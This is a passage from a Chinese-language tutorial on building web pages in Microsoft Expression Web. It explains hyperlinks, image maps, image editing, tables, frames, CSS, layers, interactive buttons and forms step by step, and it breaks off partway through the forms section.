单击“视图→标尺和网格”，在子菜单中选择“显示标尺”和“显示网格”命令，就可以在网页中显示标尺和网格，为设计网页提供参考。单击“设置”命令，可以设置网格标尺的单位、间距以及线条颜色和样式。

要想取消标尺和网格，再次单击“视图→标尺和网格→显示标尺”（显示网格）命令即可。

## 13. 设置网页大小
单击“视图→网页大小”，在子菜单中可以选择要设计的网页大小，如果单击“更改页面大小”命令，出现“修改网页大小”对话框，单击“添加”按钮，可以在弹出的窗口中输入网页的高度、宽度值以及说明文字，单击“确定”按钮，就可以将自定义的网页大小添加到列表中，然后单击“确定”按钮，以后就可以直接在“网页大小”子菜单中直接选择自己定义的网页尺寸了。

#### 四、建立超链接
超链接是连接网页之间以及网页与其他网站之间的一个纽带，正是因为有了超链接，网站之间的访问才变得轻松方便。

##### 1. 创建超链接
超链接既可以是文字也可以是图片，既可以链接到网站内的网页，也可以链接到其他的网站、文件、程序或电子邮件。

选中要建立超链接的文本或图片，如果没有选择文本或图片，则目标URL显示为超链接文本。

单击“插入→超链接”命令或工具栏中的“插入超链接”按钮，弹出“插入超链接”对话框（图5）。

设置超链接的参数内容：
在“要显示的文字”框中输入超链接要显示的文本内容。

单击“屏幕提示”按钮，在弹出的对话框中输入屏幕提示文字，当你将鼠标移到超链接上时将显示该文字内容。

如果要链接到网站中的某个网页，请在“当前文件夹”列表中选中一个网页，如果要链接到外部网站，请在“地址”框中输入网站的网址。

单击“目标框架”，在弹出的窗口中可以设置网页的打开方式，如果希望在新浏览窗口中打开超链接，请选择“新建窗口”。

如果要链接到电子邮件地址，请选择“电子邮件地址”，然后在右边的窗口中输入“电子邮件地址”和邮件主题。

设置完毕，单击“确定”按钮。

##### 2. 修改超链接
选中已建立的超链接或将光标移到超链接中的任意位置，单击工具栏中的“插入超链接”按钮，在弹出的“编辑超链接”对话框中进行编辑即可。

##### 3. 删除超链接
选中超链接或将光标移到超链接内的任意位置，单击工具栏中的“插入超链接”按钮，在打开的“编辑超链接”对话框中单击右下角“删除链接”按钮即可将超链接内容删除，但将保留原来的文本或图片。

##### 4. 建立图像映射
所谓图像映射就是指在一个图片上建立多个热点（超链接区域），不同的热点指向不同的超链接，网站访问者只需单击图像映射的特定区域就可以显示相应的网页。

#### (1) 创建热点
1. 首先要将创建热点的图像插入到网页中。
2. 单击“视图→工具栏→图片”命令，打开“图片”工具栏。
3. “图片”工具栏上有“长方形热点”、“圆形热点”、“多边形热点”三个按钮，分别用来创建长方形、圆形和多边形热点。单击选中按钮，鼠标变成铅笔状，然后在图像中拖曳出一个长方形、圆形或多边形区域。
4. 松开鼠标，出现“插入超链接”对话框，设置方法与前面介绍的创建超链接完全一样。
5. 设置完毕，单击“确定”按钮，一个热点就建立好了，重复以上步骤，可以建立多个热点，每个热点对应一个不同的链接。

#### (2) 修改热点
热点建立后，单击选中它，在热点周围出现控点，用鼠标拖动控点可以改变热点的大小。直接拖动热点可以改变它的位置。双击热点弹出“编辑超链接”对话框，在对话框里可以修改超链接的各种参数。

#### (3) 突出显示热点
如果热点叠在图像上很难看到外框，我们可以让热点突出显示出来，方法是：
单击“图片”工具栏中的“突出显示热点”按钮，可以将图片隐藏起来，只显示出热点的图形。

##### 5. 使用书签
书签是一种网页内的超链接，利用书签，用户可以快速到达网页中的特定位置进行浏览。

#### (1) 插入书签
在创建到达书签的链接之前，必须要在网页中插入书签。一个书签可以是当前光标所在的位置或所选的一些文本。插入书签的操作如下：
1. 在网页中选择要指定书签的文本或将光标移到要插入书签的位置。
2. 单击“插入→书签”命令，打开“书签”对话框。
3. 在“书签名称”中输入书签名称。
4. 单击“确定”按钮，被选中作为书签的文本变为蓝色带下划线，表示书签已经建立好。
5. 重复以上操作，可以给网页建立多个书签。

#### (2) 访问书签
书签建立好后，我们可以很方便地访问它，方法是：单击“插入→书签”命令，打开“书签”对话框，在“此网页中的其他书签”列表中列出了当前网页中建立的所有书签，选中某个书签，单击“转到”按钮，就可以跳转到书签所在的位置。

#### (3) 删除书签
单击“插入→书签”命令，打开“书签”对话框，在列表中选中要删除的书签，单击“清除”按钮即可。

#### (4) 创建到书签的超链接
定义好书签后，就可能创建到书签的超链接，具体操作如下：
1. 选中要建立超链接的文本或图像。
2. 单击工具栏中的“插入超链接”按钮，出现“插入超链接”对话框。
3. 在“链接到”中单击“本文档中的位置”，在右边的书签列表中选中一个书签。
4. 单击“确定”按钮，完成书签超链接的创建。

#### 五、图像处理
Expression Web支持bmp、jpg、gif、png、wmf格式的图形文件，使它对图像的支持范围变得更广泛，但在保存时它将把其他格式的图像自动转换为jpg、gif或png格式保存。Expression Web对图像的编辑功能也进一步加强，利用它提供的工具可以完成一些常见的图像编辑操作，大大方便了网页的设计。

##### 1. 插入图片
将光标移到网页中要插入图片的位置，单击“插入→图片→来自文件”命令或直接单击工具栏中的“插入文件中的图片”按钮，打开“图片”对话框，选中所需要的图片文件，单击“插入”按钮，出现“辅助功能属性”对话框，在“替代文本”框中，输入在下载图形、找不到图形或网站访问者将鼠标移到图形上时为图形所显示的文本，若要添加较详细的说明，请单击“浏览”按钮，并选择一个文件，再单击“打开”按钮，当然你也可以选择不在“辅助功能属性”对话框中输入内容，单击“确定”按钮，图片就插入到网页中。

##### 2. 改变图片的大小
#### (1) 通过拖动改变图片大小
单击网页中的图片选中它，在图片的右边、下边和右下角顶点上会出现三个控点；将鼠标移到控点上，光标变成双箭头形状，然后拖动鼠标就可以改变图像的大小。按Shift键拖动右下角的控点可以保持图像的长宽比例同步放大或缩小。

当图片更改大小后，在图片的旁边会出现一个图片动作按钮(图6)，单击它会出现两个选项，用户可以根据需要选择使用。

仅修改大小属性：这是程序默认的处理图片的方式，只修改图片的高度和宽度值。

重新对图片取样以匹配大小：放大和缩小图片会更改图像的像素大小，从而改变图片的大小，重新取样会在调整后的图片中添加或去除像素，以尽可能与原图相符，因此重新取样是用户最好的选择，特别是将图片进行缩小时，对图片重新取样不但能使图片看起来更美观，而且可以大大减少图片的体积。

#### (2) 精确改变图片大小
在网页中右键单击图片，选择“图片属性”或者直接双击图片，打开“图片属性”对话框，在“外观”选项卡上，在“宽度”和“高度”中输入数值，可以是像素值或百分比，选中“保持纵横比”选项可以保持图像的原始比例。

##### 3. 更改图片文件类型
Expression Web允许用户很方便地转换图片格式，用户可以很容易地将其他格式的图像转换为GIF、JPEG或PNG格式。具体操作是：右键单击图片，在弹出的快捷菜单中选择“更改图片文件类型”命令，打开“图片文件类型”转换对话框，选中要转换的图片类型，设置好相应的参数，单击“确定”按钮。

##### 4. 改变图片属性
右键单击图片，选择“图片属性”，就可以打开“图片属性”对话框。在“常规”选项卡中，“辅助功能”用来添加图片的文字说明，“超链接”用来设置图片超链接。在“外观”选项卡中可以设置图片的环绕样式、大小以及对齐方式、边距和边框粗细等参数。

##### 5. 编辑图片
Expression Web的“图片”工具栏上放置了多个工具按钮，利用它们可以很容易地完成图片的编辑。

#### (1) 裁剪图片
选中要裁剪的图片，单击“图片”工具栏上的“裁剪”按钮，在图片上会出现一个裁剪框，拖曳裁剪框四周的控点，将裁剪框调至适当大小，然后再单击“图片”工具栏上的“裁剪”按钮，裁剪框以外的部分将被裁掉。

#### (2) 制作透明图
用户可以将GIF图片中的一种颜色指定为透明色，这样就可以将背景显示出来。如果图片不是GIF格式，Expression Web会提示你先将图片转换为GIF格式。

将图片中的颜色变为透明色的操作如下：

在网页上选择一个图片，单击“图片”工具栏上的“设置透明色”按钮，鼠标变成笔状，然后在图片中要设为透明的颜色区域上单击，图片上带有这种颜色的区域全部变成透明，我们从中可以看到显示的网页背景色。如果为一个指定了透明色的图片再次指定透明色，则原来的透明色就不再是透明的了，而是采用新的透明色。

#### (3) 调整图片的亮度和对比度
选中图片，然后单击“图片”工具栏中的“增加对比度”、“降低对比度”、“增加亮度”、“降低亮度”按钮就可以调整图片的亮度和对比度。

#### (4) 旋转图片
选中图片，单击“图片”工具栏中的“向左旋转90度”、“向右旋转90度”、“水平翻转”、“垂直翻转”按钮可以旋转图片。

#### (5) 制作灰度和冲蚀图
选中图片，单击“图片”工具栏中的“颜色”按钮，弹出下拉菜单，其中“灰度”效果将图片转换成黑白图，“冲蚀”效果则将图片洗白。

#### (6) 制作凹凸效果图
选中图片，单击“图片”工具栏中的“凹凸效果”按钮即可将图片呈现出立体按钮的效果。

##### 6. 创建缩略图
利用缩略图可以减少网页的体积，加快页面打开的速度，在需要时可以单击缩略图来打开原图浏览。Expression Web内置的缩略图创建工具可以帮助用户快速创建缩略图。

#### (1) 建立图片的缩略图
在网页中选中图片，单击“图片”工具栏中的“自动缩略图”按钮，Expression Web会自动在原来的位置用缩略图代替原来的大图片，而且自动设置从缩略图到原来大图片的链接。在保存时，缩略图会作为一个单独的文件保存，它的名称是在原来大图片的名称后自动加上“Small”。

#### (2) 设置缩略图属性
单击“工具→网页编辑器”命令，在“自动缩略图”选项卡中可以设置缩略图的默认属性。

在“设置”下拉框中选中一个选项，然后在“像素”中输入数值用来设置缩略图的大小。

选中“边框粗细”，在“像素”中输入数值可以设置边框的粗细。

如果想让图片呈现凹凸效果，可以选中“边缘凹凸效果”选项。

#### 六、表格和布局
表格具有整齐划一，直观明了的特点，因此，它不但用来组织网页中的文本、图像等元素，而且用于规划网页的整体布局，在网站设计中具有非常广泛的应用。

##### 1. 表格
表格由行和列组成，每一个单独的方格又称为单元格，在单元格中可以插入文本、图形和其他页面元素。

#### (1) 创建表格
在Expression Web中有两种方法创建表格。

1. 使用工具按钮插入表格
将插入点移到网页中要插入表格的位置，单击工具栏中的“插入表格”按钮，弹出一个表格窗口，向右下方拖动鼠标，表格框中就会显示表格的大小，表格大小满足要求时单击鼠标就会在网页中插入一张空表格。

2. 使用菜单命令插入表格
将插入点移到网页中要插入表格的位置，单击“表格→插入表格”命令，出现“插入表格”对话框，输入表格所需的“行数”和“列数”，然后在“布局”、“边框”、“背景”中设置好表格的其他参数，单击“确定”按钮，一个表格就出现在网页中。

#### (2) 表格的基本操作
1. 选择表格
表格包括行、列、单元格，我们可以根据需要选择任一部分。
选择整个表格：将光标移到表格中的任一单元格，单击“表格→选择表格”命令就选中了整个表格。
选择行或列：将光标移到要选取的行或列中的任一单元格内，单击“表格→选择”，然后选择“行”或“列”命令，就可以选中一行或一列。
选择单元格：将光标移到要选取的单元格内，单击“表格→选择单元格”命令，就可以选中一个单元格。如果想选中多个单元格，请在表格内拖动鼠标，就可以选中多个连续的单元格，按住Ctrl键然后单击不同的单元格可以选中多个不连续的单元格。

2. 添加行或列
将光标移到要添加行（或列）旁边的行（或列）中，单击“表格→插入行或列”命令，出现“插入行或列”对话框，选中插入行或列，设置插入的行数（或列数）以及要插入的位置，单击“确定”按钮。
也可以将光标移到要插入行（或列）旁边的单元格内，然后单击“表格”工具栏中的“列（在右侧）”、“列（在左侧）”、“行（在上方）”、“行（在下方）”按钮，就可以插入相应的行（或列）。

3. 插入单元格
将光标移到紧邻要添加单元格的单元格中，单击“表格→插入”，再单击“单元格（在左侧）”或“单元格（在右侧）”命令。

4. 删除表格
无论是删除整个表格，还是删除行、列或单元格，在删除之前首先要选中它，然后单击“表格→删除”命令，在子菜单中选择相应的命令即可。

5. 拆分单元格
在表格中选中要拆分的一个或多个单元格，也可以是整行或整列单元格，单击“表格→修改→拆分单元格”命令，在“拆分单元格”对话框中选择要拆分成行或列，并设置相应的行数或列数，单击“确定”按钮。

6. 合并单元格
选中一行、一列或一组相邻的单元格，单击“表格→修改→合并单元格”命令，即可完成单元格的合并。注意，选中的相邻单元格必须要组成一个矩形。

#### (3) 调整表格尺寸
1. 手动调整
将光标移到要调整的单元格行或列的边框上，光标变为双箭头状，按住鼠标上下或左右拖动就可以调整大小。要调整整个表格大小，首先选中它，在表格右边、下边和右下角会出现控点，拖动控点即可调整整个表格的大小。

2. 精确调整
选中要调整尺寸的单元格，右键单击选择“单元格属性”，在打开的“单元格属性”对话框中指定宽度和高度值。
要调整整个表格的尺寸，首先将光标移到表格内的任意位置，然后右键单击，选择“表格属性”，打开的“表格属性”对话框中，在“指定宽度”和“指定高度”框中输入数值。

3. 平均分配列宽
如果想让一行中的所有列保持相同的宽度，请先选中该行，然后单击“表格→修改→平均分布各列”。

4. 平均分配行高
如果想让一列中的所有行保持相同的高度，请先选中该列，然后单击“表格→修改→平均分布各行”。

#### (4) 设置表格属性
选中表格，右键单击，选择“表格属性”命令，打开“表格属性”对话框。
在“大小”中可以设置表格的行数和列数。
在“布局”中可以指定表格的宽度和高度，设置表格的对齐方式、单元格跨距和间距等。
在“边框”中可以设置边框的粗细及颜色。
在“背景”中可以设置背景色和背景图片。

#### (5) 设置单元格属性
选中某个单元格，右键单击，选择“单元格属性”命令，打开“单元格属性”对话框。
在“布局”中可以指定单元格的宽度和高度，设置对齐方式和跨距。
在“边框”中设置边框的粗细和颜色。
在“背景”中设置单元格的背景色和背景图片。

#### (6) 表格和文本相互转换
使用Expression Web可以将表格转换为文本，也可以将文本转换为表格。

1. 将表格转换为文本
在网页中选中要转换为文本的表格，单击“表格→转换→表格转换成文本”命令，表格就转换成了文本，每个单元格将成为一个单独的段落。

2. 将文本转换为表格
在网页中，输入文本，同时要输入将文本分隔成行或列的分隔字符，例如逗号或句号，然后选中文本，单击“表格→转换→文本转换成表格”命令，在打开的对话框中，选择用来分隔列的字符，单击“确定”按钮。

#### (7) 快速填充文本
如果一行或一列的文本内容相同，使用下面的方法可以快速将同行或同列填充上相同的内容。
在一行最左端的行首单元格内输入内容，然后选中该行，单击“表格→填充→向右”命令，就可以将本行所有单元格都填充上行首单元格的内容。
在一列最上端的单元格内输入内容，然后选中该列，单击“表格→填充→向下”命令，就可以将本列所有单元格都填充上最顶端单元格的内容。

##### 2. 布局表格
布局表格与表格表面看没有多大区别，但布局表格是Expression Web专门用来设计网页布局用的，它与表格分属两种不同的编辑工具，布局表格通过“布局表格”任务窗格来进行操作。选中布局表格后，它将以绿色显示边框线，同时在每条边上都会出现显示列宽和行高的标签，每个标签都包含一个下拉箭头，可以单击该箭头查看用于调整列或行的大小的选项列表(图7)，布局表格的边框线在浏览网页时不会显示，它只是设计网页的一个参考线。

#### (1) 认识“布局表格”任务窗格
布局表格是通过“布局表格”任务窗格来完成编辑操作的，因此我们来首先认识一下该任务窗格。
单击“任务窗格→布局表格”命令，就可以在左边出现“布局表格”任务窗格。

单击“插入布局表格”和“插入布局单元格”可以在网页中自动插入一个布局表格和布局单元格。

单击“绘制布局表格”和“绘制布局单元格”按钮，可以在网页中拖动鼠标手工绘制布局表格和单元格。

“显示布局工具”按钮用来显示布局表格控制工具。

在“表格属性”中用来设定布局表格的宽度、高度、对齐方式和页边距。

“表格布局”中是程序给出的几种布局表格模板，单击就可以直接在网页中插入一个布局表格。

#### (2) 添加布局表格
- 方法一：在“布局表格”任务窗格中的“布局表格”下直接选择一种模板，单击它就可以在网页中插入一个布局表格。
- 方法二：单击“布局表格”任务窗格中的“插入布局表格”或“插入布局单元格”命令，在网页中自动插入一个默认的布局表格或单元格。
- 方法三：单击“布局表格”任务窗格中的“绘制布局表格”或“绘制布局单元格”按钮，然后用鼠标在网页上拖动鼠标手工绘制布局表格或单元格。

在布局表格中可以插入一个或多个布局单元格，方法是：单击“绘制布局单元格”按钮，然后在布局表格中拖动鼠标进行绘制。如果要连续绘制两个或多个单元格，请单击“绘制布局单元格”按钮，然后在按住Ctrl键的同时拖动鼠标指针。

#### (3) 删除布局表格和布局单元格
- 删除布局单元格：单击布局单元格的边框，选中它，然后按Delete键删除。
- 删除布局表格：在“布局表格”任务窗格中，单击“显示布局工具”按钮，以激活布局表格，然后按Delete键删除。

#### (4) 调整布局表格或单元格的大小
单击布局表格或单元格的边框激活它，在边框上会出现控点，用鼠标拖动控点就可以改变表格的大小。

#### 七、框架
框架网页是一种特殊的网页，它本身不包含可见内容，它只是一个窗口，里面包含多个框架，每个框架都可以显示一个独立的网页，多个框架之间还可以设置超链接，这些框架的集合，就称为框架网页。框架网页不是一个真正意义上的页面文件，它主要是记录该框架网页包含了几个框架，以及网页的拆分方式等信息，而每一个单独的框架才是一份真正的页面文件。使用框架可以使页面的结构更加清晰合理。

##### 1. 创建框架网页
单击“文件→新建→网页”命令，打开“新建”网页对话框，在“网页”选项卡中单击“框架网页”，在右边的列表中就可以看到程序内置的十种框架网页模板以及预览图，选择一种模板，单击“确定”按钮，就可以创建一个框架网页（图8）。

新创建的框架网页还没有任何内容，用户需要给每个框架来填充网页内容，有两种方法：

如果已经在网站中编辑了网页，可以单击框架中的“设置初始网页”按钮，打开“插入超链接”对话框，在文件列表中选中一个网页文件，也可以直接在“地址”栏中输入网址，单击“确定”按钮，就可以将网页插入到框架中。

如果还没有建立网页，需要给框架新建网页内容，请单击框架中的“新建网页”按钮，开始新网页的编辑。

##### 2. 保存框架网页
当创建好框架网页之后，就需要将这个框架网页保存起来，框架网页由于包含多个网页，所以在保存时要一个个地保存，如果框架中填充的是一个事先创建好的网页，在进行框架网页保存时这个框架就不会再进行保存操作了。

对于新建的框架网页，单击工具栏中的“保存”按钮，出现“另存为”对话框（图9），在右边显示一个框架网页图，并且以蓝色表示当前要保存的框架，输入文件名，然后单击“保存”按钮，框架图中的另一个框架显示为蓝色，表示这是当前要保存的框架，输入文件名，然后单击“保存”按钮，重复以上操作，可以将多个框架都保存起来。当保存完最后一个框架后，对话框中的整个框架图显示为蓝色，表示此时正在保存框架网页本身，输入框架网页的文件名，单击“保存”按钮，这个文件名就是以后访问该框架网页时要指向的文件。

##### 3. 制作替代网页
有些浏览器不支持框架格式，这时就需要给框架网页设计一个普通格式的网页，以便用户浏览时能够看到网页的内容。制作替代网页的方法很简单，单击编辑窗口下部的“无框架”，切换到无框架视图模式，然后编辑网页内容即可。

##### 4. 修改框架布局
#### (1) 调整框架大小
- 手动调整：将鼠标移到框架的分隔线上，光标变为双箭头，拖动鼠标就可以调整框架的大小。
- 精确调整：选中要更改大小的框架，右键单击，选择“框架属性”命令，出现“框架属性”对话框，在“框架大小”区域内，输入“宽度（或列宽）”和“高度（或行高）”的值。需要注意的是，当框架为左右结构时，只能改变框架的宽度，此时有关行高的设置处于非活动状态，当框架为上下结构时，只能改变框架的行高，此时有关宽度的设置处于非活动状态。

#### (2) 拆分框架
选中要拆分的框架，单击“格式→框架→拆分框架”命令，出现“拆分框架”对话框，根据需要选择“拆分成行”或“拆分成列”选项，单击“确定”按钮完成拆分。

#### (3) 删除框架
选中要删除的框架，单击“格式→框架→删除框架”命令即可。

##### 5. 设置框架属性
选中要修改的框架，右键单击，选择“框架属性”命令，打开“框架属性”对话框，在此可以设置框架名称、初始网页、标题、框架大小、边距以及是否显示滚动条等参数。

如果想取消框架之间的边框，请单击“框架网页”按钮，在弹出的“网页属性”对话框中取消选中“显示边框”选项。

如果想锁定框架，禁止用户在浏览框架网页时拖动边框调整框架大小，请取消选中“可在浏览器中调整大小”选项。

##### 6. 设置目标框架
#### (1) 设置超链接的目标框架
在框架网页中各个框架之间可以建立超链接，用户可以设置单击超链接时，在哪个框架中打开网页，这个打开网页的框架就是目标框架。若要设置超链接的目标框架，请在“插入超链接”对话框中单击“目标框架”按钮进行选择设置。

##### 7. 嵌入式框架

嵌入式框架与框架网页相似，但它不需要单独创建框架网页，所以操作起来更简单。

- (1) 添加嵌入式框架
新建或打开一个网页，单击“插入→HTML→嵌入式框架”命令，就可以在网页中插入一个嵌入式框架（图10）。单击“设置初始网页”按钮，可以选择一个已保存的网页，单击“新建网页”按钮，程序将创建一个新网页并将其设置为初始网页。



- (2) 修改嵌入式框架属性
右键单击嵌入式框架，在弹出的菜单中选择“嵌入式框架属性”命令，打开“嵌入式框架属性”对话框，在此可以设置嵌入式框架的名称、初始网页、标题、框架大小、边距、对齐方式以及是否显示滚动条和边框等参数。

#### 八、样式表和层

##### 1. 样式表

- (1) 样式表简介
样式表即级联样式表，简称CSS，由应用于特定页面元素或者整个页面的样式定义或者样式规则组成，利用样式表可以统一站点风格，精确指定网页元素位置、外观以及创建特殊效果。样式表实现了网页内容与形式的分离，使网页设计者可以更好地控制页面的形式。

样式表分为三种类型：

- 外部样式表：即以一个单独的CSS文件来保存网页的样式定义，网站中的所有页面都可以链接到这个CSS文件上，从而保持网站风格的统一。
- 内部样式表：它包含在网页的head标记中，只对当前网页有效。内部样式表包含在<style></style>标记之间，样式定义规则与外部有完全一样。
- 嵌入式样式表：为页面中的指定元素定义样式，该样式表在网页中的HTML元素的开始标记内定义，只作用于所定义的元素。
以上三种样式表可以在网页中同时使用，它们的优先级是：嵌入式样式表的优先级最高，内部样式表优先级次之，外部样式表优先级最低。

- (2) 创建样式表
利用Expression Web可以非常方便地创建样式表，用来设置网页及其内容的格式。

- 1) 创建外部样式表
单击“文件→新建→CSS”命令，新建一个样式表文件，然后单击“应用样式”任务窗格中的“新建样式”按钮，打开“新建样式”对话框，在“选择器”中选择要定义的标记，在“定义位置”下拉列表中选择“现有样式表”，在下面的“类别”区设置好各项参数，单击“确定”按钮，一个样式表就建好了，将它保存起来，以后就可以使用了。

- 2) 创建内部样式表
首先打开要创建内部样式表的网页，然后单击“应用样式”任务窗格中的“新建样式”按钮，在“新建样式”对话框的“定义位置”下拉菜单中，选择“当前网页”，在“选择器”中选择要定义的标记，同时在下面设置好各项参数，单击“确定”按钮，样式表就自动插入到网页中的<head></head>标记之间，我们可以转换到“代码”视图模式进行查看。

- (3) 管理样式表

- 1) 将外部样式表附加到网页中
对于创建的外部样式表，我们可以将它应用到网站中的一个或多个网页上，方法是：
首先选中要附加外部样式表的网页，它包括以下几种情况：
- 如果要将样式表附加到单个网页，请打开该网页。
- 如果要将样式表附加到网站中的所有网页，请打开该网站。
- 如果要将样式表附加到多个网站，请在“文件夹列表”任务窗格中选择要使用该样式表的网页。
选中网页之后，单击“格式→CSS样式→附加样式表”命令或单击“应用样式”任务窗格中的“附加样式表”按钮，在“附加样式表”对话框中，单击“浏览”按钮选择保存的CSS文件，然后选择要附加的网页以及CSS文件是链接还是导入到当前网站中，单击“确定”按钮，就可以立即看到应用了样式表的网页效果。

- 2) 从网页中取消外部样式表
打开要删除外部样式表的网页，在“应用样式”或“管理样式”任务窗格中，右键单击CSS文件的名称，在弹出的菜单中选择“删除链接”命令，就可以将网页中附加的外部样式表链接删除。

- 3) 修改样式
对于建立的样式表，如果不满意，可以通过以下方法进行修改。

- 方法一：通过“修改样式”对话框修改样式。
打开包含样式表的网页，在“应用样式”任务窗格中指向要修改的样式，单击右边的下拉箭头，在弹出的菜单中单击“修改样式”命令，打开“修改样式”对话框，进行相关的修改即可。

- 方法二：通过“CSS属性”任务窗格修改样式。
打开要修改样式的网页，在“CSS属性”任务窗格“应用规则”列表中显示出样式名称，单击要修改的样式的名称，然后在下面的“CSS属性”中设置所需的属性即可。

- 4) 从样式表中删除样式
打开附加了CSS的网页，在“管理样式”任务窗格中，右键单击要删除的样式，在弹出的菜单中选择“删除”命令，然后在显示的确认对话框中单击“是”按钮。

- (4) 应用样式表
在网页中，选中要应用样式的项，然后在“应用样式”任务窗格单击所需的样式，即可把该样式运用到网页中的相应内容上。如果要应用多种现有模式，请在“应用模式”任务窗格中，按住Ctrl键并单击所需的每种样式。

##### 2. 层

层是一种比较自由和容易控制的容器，它可以放置在网页内的任何位置，在层中可以插入各种网页元素，如文字、图像、表格等，在层中还可以嵌套层。层可以用来创建网页的布局，还可以与行为结合使用创建动画和飞出菜单。

- (1) 插入层
单击“任务窗格→层”命令，将“层”任务窗格显示在右下方的面板中，然后在网页中，将光标移到要插入层的位置，单击“插入→HTML→层”命令或在“层”任务窗格中单击“插入层”按钮，就可以在网页中插入一个层。
也可以在“层”任务窗格中单击“绘制层”按钮，然后用鼠标在网页中拖动就可以画出一个层。

- (2) 删除层
在网页中选中层，按Delete键即可把它删除，也可以在“层”任务窗格中选中要删除的层，按Delete键删除。

- (3) 移动层
单击选中层，将鼠标移到左上角鼠标变成十字箭头状，按住鼠标拖动到新的位置即可。

- (4) 改变层的大小
1) 手动调整
在网页中选中层，层四周的边框上出现控点，用鼠标拖动控点即可调整层大小。
2) 精确调整
单击选中层，单击“格式→定位”命令，打开“定位”对话框，在“宽度”、“高度”框中输入需要的数值。

- (5) 设置层的属性
1) 修改层的可视性
在“层”任务窗格的“层可视性”列中单击要修改的层，睁开的眼睛表示可视，闭上的眼睛表示隐藏。
2) 修改层的ID
在“层”任务窗格的“层ID”列中，双击要重命名的层，在框中输入所需的名称。
3) 设置层在Z轴上的顺序
在“层”任务窗格中，将层向上或向下拖放到所需的列表位置或者直接在“Z”列表中双击层的值，然后键入新值即可。
4) 定位层
在网页中选中层，单击“格式→定位”命令，打开“定位”对话框，可以设置环绕样式、定位样式以及位置和大小等参数。

#### 九、动态网页效果

为了使网页充满活力，富于变化和吸引力，我们往往需要给网页添加上一些声音、动画、弹出窗口、网页过渡效果等特效，在Expression Web中我们可以不用写一句代码，就能轻松实现这些特效。

##### 1. 插入交互式按钮

交互式按钮是一个动态按钮，它与普通按钮不同的地方是，交互式按钮可以在不同的状态下（如原始、悬停和按下）显示不同的外观，从而使按钮产生了动态效果。

- (1) 添加交互式按钮
将光标移到要添加按钮的位置，单击“插入→交互式按钮”命令，打开“交互式按钮”对话框，进行如下设置：
在“按钮”选项卡的“按钮”列表中，单击选择按钮样式，在“文本”框中，输入要显示在按钮上的文本，单击“链接”旁边的“浏览”按钮，在打开的“编辑超链接”对话框中找到并单击希望链接到的文件、URL或电子邮件地址。
在“字体”选项卡上，可设置各种按钮状态下文本的字体、样式、对齐方式及颜色。
在“图像”选项卡上，可设置要创建的图像的大小以及是否创建对应于各种按钮状态的图像。
各种参数设置完毕，单击“确定”按钮，一个交互式按钮就会出现在网页中。

- (2) 保存交互式按钮
由于Expression Web使用图片显示交互式按钮不同状态，所以在保存包含交互式按钮的网页时，程序会提醒你保存交互式按钮图片，它包括按钮初始状态、悬停状态、按下状态三幅图片。

- (3) 删除交互式按钮
在网页中选中要删除的交互式按钮，按Delete键即可把它删除。需要注意的是，当你从网页中删除交互式按钮时，程序不会自动删除这三幅图片，需要用户自己手工删除。

- (4) 设置交互式按钮属性
右键单击交互式按钮，在弹出的菜单中选择“按钮属性”命令，或者直接双击交互式按钮，都可以打开“交互式按钮”对话框，然后根据需要修改相应的属性即可。修改属性后一定要保存网页以保存修改后的按钮图片。

##### 2. 添加网页过渡效果

Expression Web可以通过动态HTML技术让网页之间的转换变成动态的，当用户浏览网站时，从一个网页切换到另一个网页将出现淡入、淡出、擦除等不同的效果。

向网页添加过渡效果的具体操作是：
打开要添加过渡效果的网页，单击“格式→网页过渡”命令，打开“网页过渡”对话框，在“事件”下拉菜单中选择要应用效果的事件，在“持续时间”中输入过渡效果持续的时间，在“过渡效果”列表中单击所需的过渡效果类型，最后单击“确定”按钮。

##### 3. 使用行为

- (1) 认识行为

行为实际上是利用脚本代码来实现一些特殊的功能，如弹出提示窗口、播放音乐、变换图像、检查浏览器插件等，这些效果如果让用户自己手工编写代码，难度非常大。Expression Web提供了“行为”任务窗格，通过它，不用编写一行代码就能实现众多强大的功能，使你的网页产生动态和多变的效果。
行为由两部分组成：事件和操作。操作是预先写好的程序脚本，Expression Web内置了十多种操作，用户可以直接选用；而事件是导致浏览器触发脚本的条件，也就是事件的激活方式，如鼠标的单击、双击、按下等。Expression Web内置了十种事件，我们可以根据不同的需要选择使用。

- (2) 向页面元素添加行为
我们可以对整个页面、图像、文字、链接或者页面中的一个或多个元素添加行为，具体操作如下：

首先单击“格式→行为”命令，在右下角的面板中打开“行为”任务窗格，然后在网页中选中要添加行为的网页元素，如文本或图形，在“行为”任务窗格中，单击“插入”按钮，弹出下拉菜单，单击所需的操作，弹出设置对话框，对于不同的操作，对话框的内容不同，设置完毕，单击“确定”按钮。若要选择不同的事件，请在“事件”之下，单击默认事件右边的下拉箭头，在弹出的菜单中选中所需的事件即可。

- (3) 删除行为
在“行为”任务窗格中单击选中要删除的行为，然后单击“删除按钮”，即可把该行为从网页中删除。

#### 十、表单

表单是用来收集访问者信息的域集。通过表单可以很方便地收集到网络访问者的信息或者意见，然后将它发送到文件、电子邮件、CGI程序或ASP中，以便于处理。用Expression Web设计网页时，只要服务器支持FrontPage Server Extension，不用用户自己写程序，就能设计出功能强大的表单。

##### 1. 创建表单

Expression Web内置了16种表单控件，它们都显示在“工具箱”任务窗格的“表单控件”中，通过拖放操作利用这些控件可以很容易地设计出需要的表单。
创建表单的基本操作是：首先新建一个网页，然后从“工具箱”中将“表单”控件拖放到网页中，下面就可以根据需要将各种网页元素和表单控件从“工具箱”中拖放到该表单中。

##### 2. 删除表单控件

在网页中选中要删除的表单控件，然后按Delete键即可删除。如果要删除网页中隐藏的表单控件，请右键单击表单，在弹出的表单中选择“表单属性”命令，打开“表单属性”对话框，单击“高级”按钮，请从“隐藏域”列表中单击要删除的控件名称，再单击“删除”按钮。

##### 3. 保存表单结果

对于浏览者提交的表单信息，Expression Web都会予以保存，并且提供了多种保存表单结果的方法。

(1) 将表单结果保存为文件

1) 在表单内右键单击，从弹出的快捷菜单中选择“表单属性”命令。
2) 出现“表单属性”对话框，在“将结果保存到”区域中选择“发送到”选项，然后在“文件名”中指定保存的文件名，也可以单击“浏览”按钮选择保存表单结果的文件。
3) 若要进一步设置保存表单结果的文件格式，请单击“选项”按钮。
4) 出现“保存表单结果”对话框，选择“文件结果”选项卡。
5) 单击“文件格式”右边的下拉箭头，在列表中选择所需的文件格式。

(2) 将表单结果发送到电子邮件地址

右键单击表单，选择“表单属性”，在“表单属性”对话框中，选中“发送到”选项，然后在“电子邮件地址”框中输入E-mail地址。

(3) 将表单保存为两个文件

